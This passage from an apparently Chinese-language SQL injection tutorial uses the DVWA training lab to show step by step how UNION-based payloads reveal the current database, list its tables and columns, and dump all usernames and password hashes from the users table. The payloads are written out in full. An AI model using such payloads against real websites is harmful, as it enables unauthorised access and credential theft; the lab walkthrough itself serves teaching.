 **补充`UNION`操作符:**
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。
默认地，UNION 操作符选取不同的值。如果允许重复的值，请使用 UNION ALL。SQL UNION 语法如下:
```sql
SELECT column_name(s) FROM table_name1
UNION
SELECT column_name(s) FROM table_name2
```
**4.获取当前数据库**
输入`1′ union select 1,database() #`，查询成功：
![1-8](https://githubblogbucket1-1258277786.cos.ap-shanghai.myqcloud.com/SQL%E6%B3%A8%E5%85%A5/1-8.png)
说明当前的数据库为`dvwa`。

**5.获取数据库中的表**
输入`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`，查询成功:
![1-9](https://githubblogbucket1-1258277786.cos.ap-shanghai.myqcloud.com/SQL%E6%B3%A8%E5%85%A5/1-9.png)
说明数据库dvwa中一共有两个表，`guestbook`与`users`。

**补充：**
MySQL中的`information_schema` 数据库保存了MySQL服务器所有数据库的信息，如数据库名，数据库的表，表栏的数据类型与访问权限等，提供了访问数据库元数据的方式。例如：
```
SCHEMATA表：提供了关于数据库名的信息。
TABLES表：给出了关于数据库中的表的信息。
COLUMNS表：给出了表中的列信息。
```
参考博客[mysql中information_schema.tables字段说明 ](https://blog.csdn.net/boshuzhang/article/details/65632708)。
`information_schema.tables`表用来保存数据库中所有表的信息。
`table_schema=数据库名`表示数据表所属的数据库。
`table_name`表名称。
`group_concat()`会计算哪些行属于同一组，将属于同一组的列显示出来(同一组的显示在一行)，要返回哪些列，由函数参数(就是字段名)决定。分组必须有个标准，就是根据`group by`指定的列进行分组。

**6.获取表中的字段名**
输入`1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`，查询成功：
![1-10](https://githubblogbucket1-1258277786.cos.ap-shanghai.myqcloud.com/SQL%E6%B3%A8%E5%85%A5/1-10.png)
说明`users`表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

**7.下载数据**
输入`1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`，查询成功：
![1-11](https://githubblogbucket1-1258277786.cos.ap-shanghai.myqcloud.com/SQL%E6%B3%A8%E5%85%A5/1-11.png)
这样就得到了users表中所有用户的user_id,first_name,last_name,password的数据。